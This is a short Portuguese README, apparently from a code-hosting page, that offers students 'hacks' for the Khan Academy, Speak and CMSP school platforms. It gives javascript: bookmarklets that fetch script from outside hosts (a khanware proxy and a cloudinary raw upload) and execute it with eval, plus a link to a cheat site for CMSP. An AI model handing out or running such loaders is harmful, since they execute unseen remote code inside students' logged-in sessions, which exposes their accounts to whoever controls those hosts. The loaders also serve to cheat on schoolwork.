 # Leia com atenção
## ***Esses hacks não funciona em rede nacional (por exemplo:SEDUC_TABLET, SEDUC_MAQ entre outras)***

### HACKS

Khan academy 

javascript:fetch("https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03").then(t=>t.text()).then(eval);

SPeak (não funcionando)

javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))


CMSP(não faz redação nem redasp)

[https://cmspcheeto.squareweb.app/]
